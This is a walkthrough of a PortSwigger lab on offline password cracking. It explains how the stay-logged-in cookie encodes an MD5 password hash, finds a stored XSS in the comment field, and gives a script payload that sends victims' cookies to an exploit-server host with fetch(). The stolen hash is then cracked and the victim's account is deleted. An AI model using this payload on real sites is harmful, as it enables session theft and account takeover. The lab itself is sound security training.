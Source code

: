 # Lab: Offline password cracking

Lab-Link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking>  
Difficulty: PRACTITIONER  
Python script: Currently no python script

## Known information

- Password hash is stored in cookie
- Website contains an XSS vulnerability in the comment functionality
- Known credentials for user `wiener:peter`
- Goals:
  - Obtain the cookie of user `carlos`
  - Offline crack the hash
  - Log in as `carlos`, access the account page and delete the account

## Steps

### Analyse cookie

The first step is to check the format of the cookie. For this, login with the known credentials for `wiener`. The cookie returned is:

`Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC`

Inspector quickly shows that it contains username and a hash in base64:

![cookie_wiener](img/cookie_wiener.png)

A quick check confirms that it is the password as MD5 hash:

![hash_md5sum](img/hash_md5sum.png)

### Find XSS vulnerability

Next we have to find the XSS vulnerability. The page allows for writing comments that have 4 possible input fields: comment, name, email and website.

The email and website fields do some basic client side validity check. I could check whether I can inject in this fields when bypassing this check, but first try in inject in the other two fields.

Injecting some basic test in the comment and name fields reveal that the comment field is injectable with this code.

```javascript
<script>alert(document.location)</script>
```

![xss_test](img/xss_test.png)

### Inject a real payload

Now we have to come up with some payload that will provide us with the cookie value when carlos looks at the page. For this, we have the exploit server where we can see the webserver logs. Lets craft a little script that loads a document from there:

```javascript
<script>
fetch('https://exploit-ac9a1f171f6ca5ce805dd394016e0032.web-security-academy.net/' + document.cookie, {
method: 'GET'
});
</script> 
```

Sure enough, the server log reveals that someone that is not me looked at the page:

![cookie](img/cookie.png)

Interestingly, there also is a `secret` cookie that I don't see on my own account. With Burp Decoder or the good old console we find the hash of carlos' password:

![cookie_decoded](img/cookie_decoded.png)

The internet has a lot of hash cracker websites, using [crackstation](https://crackstation.net/) the value of the password is quickly found:

![hash_cracked](img/hash_cracked.png)

Now simply login as carlos and delete the account

![delete_confirmation](img/delete_confirmation.png)

![success](img/success.png)
